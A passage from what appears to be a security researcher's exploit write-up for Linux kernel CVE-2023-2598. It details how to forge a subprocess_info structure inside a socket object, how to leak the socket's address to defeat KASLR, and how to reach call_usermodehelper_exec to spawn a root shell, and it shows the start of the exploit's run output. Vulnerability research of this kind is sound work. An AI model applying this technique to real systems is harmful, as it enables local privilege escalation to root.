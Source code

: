 However, all of those strings need to go somewhere. We already established that `path` will need to go at the start of `proto` but there isn't enough space there for all of those strings. A convenient location for them is overlapping with `inet_sock / inet_connection_sock / tcp_sock` after `sock` proper. There we can write both the strings and the `argv` array of pointers.

This though, presents another problem. In order to set up `argv` we need to know the addresses in memory of all the arguments we set up. So aside from KASLR, we need to also leak the address of our `sock` object in memory so we can calculate the location at which our arguments are.

Two members in `sock` from which we can obtain a *self-pointer* are `sk_error_queue` and `sk_receive_queue` - both are the doubly linked list nodes. Both nodes *should* be in a linked list by themselves and therefore should contain pointers to themselves. It should be said that while I observed that both were in empty linked lists, `sk_error_queue` is said in the documentation to be "rarely used" - so it is the wiser choice for the leak. 

After obtaining the address of our `sock` structure in memory, the rest is just a simple matter of calculating offsets.

#### Setting up subprocess_info <a name="subprocess_info"></a>
Let's see how we are going to set the `subprocess_info` to escalate.
```
work.data          <-> set to 0
work.entry.next    <-> set to it's own address
work.entry.prev    <-> set to the address of work.entry.next
work.func          <-> set to call_usermodehelper_exec_work
complete           <-> irrelevant
path               <-> don't overwrite or overwrite it with the same value
argv               <-> write the address where the argv array was set up
envp               <-> set to 0, we have no env variables
wait               <-> irrelevant
retval             <-> irrelevant
*init              <-> set to 0
*cleanup           <-> set to 0
data               <-> irrelevant
```
We must write `work.func` to hold `call_usermodehelper_exec_work`. As you remember we wrote the value of `proto->ioctl` to be `call_usermodehelper_exec`. The function `call_usermodehelper_exec` is responsible for queuing up our deferred work while `call_usermodehelper_exec_work` is called to handle the deferred work, when it comes time for it - so the function `call_usermodehelper_exec_work` is the one responsible for spawning our new process.

We write `path` to remain the same, the address of our `proto` structure.

After this is done, making an `ioctl` call to our socket to spawn our new shell is all that is left :)

### Proof of Concept <a name="poc"></a>
Due to the astonishing primitive that this vulnerability gives us, the proof of concept is *extremely* reliable by nature.
```
$ id
uid=65534(nobody) gid=65534(nobody) groups=65534(nobody)
$ ./exploit
[*] CVE-2023-2598 Exploit by anatomic (@YordanStoychev)
memfd: 0, page: 0 at virt_addr: 0x4247000000, reading 266240000 bytes
memfd: 0, page: 500 at virt_addr: 0x42470001f4, reading 266240000 bytes
memfd: 0, page: 1000 at virt_addr: 0x42470003e8, reading 266240000 bytes
memfd: 0, page: 1500 at virt_addr: 0x42470005dc, reading 266240000 bytes
memfd: 0, page: 2000 at virt_addr: 0x42470007d0, reading 266240000 bytes
memfd: 0, page: 2500 at virt_addr: 0x42470009c4, reading 266240000 bytes
memfd: 0, page: 3000 at virt_addr: 0x4247000bb8, reading 266240000 bytes
memfd: 0, page: 3500 at virt_addr: 0x4247000dac, reading 266240000 bytes
memfd: 0, page: 4000 at virt_addr: 0x4247000fa0, reading 266240000 bytes
memfd: 0, page: 4500 at virt_addr: 0x4247001194, reading 266240000 bytes
memfd: 0, page: 5000 at virt_addr: 0x4247001388, reading 266240000 bytes
```